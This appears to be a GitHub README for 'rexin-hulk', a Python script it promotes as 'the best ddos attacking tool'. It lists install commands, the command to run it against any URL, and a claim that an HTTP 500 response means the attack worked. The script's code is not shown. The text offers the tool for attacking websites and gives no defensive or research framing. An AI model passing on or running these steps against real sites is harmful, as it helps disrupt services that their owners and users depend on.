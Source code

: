 Follow me on instagram:-https://instagram.com/psycho_rexin_ofc_?igshid=YmMyMTA2M2Y=
To contains the file named hulk.py hulk.py is the best ddos attacking
Tool which is written with python installetion commands

$ apt update

$ apt upgrade

$ pkg install python2

$ pkg install git

$ https://github.com/PSYCHO-REXIN/rexin-hulk

$ cd rexin-hulk

$ python2 hulk.py <url> (http://example.com)

If the result come response code 500 then your ddos attack successful.
Handsshake!! Butt some web site block you ip which may also show responce
Code 500 happy do sing !------END------
